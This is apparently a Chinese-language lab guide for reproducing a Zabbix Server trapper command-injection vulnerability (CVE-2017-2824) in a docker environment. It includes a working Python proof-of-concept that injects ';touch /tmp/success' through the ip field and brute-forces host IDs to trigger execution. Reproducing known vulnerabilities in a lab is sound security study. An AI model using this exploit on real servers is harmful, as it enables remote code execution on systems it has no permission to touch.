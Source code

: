 # Zabbix Server trapper命令注入漏洞（CVE-2017-2824）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![](1.png)

第三个标签页，创建一个Operation，type是“Add Host”：

![](2.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

这个POC比较初级，请多执行几次，当查看到如下结果时，则说明命令执行成功：

![](3.png)

进入server容器，可见`/tmp/success`已成功创建：

![](4.png)

有兴趣的同学可以对这个POC进行改进，提交Pull Request。
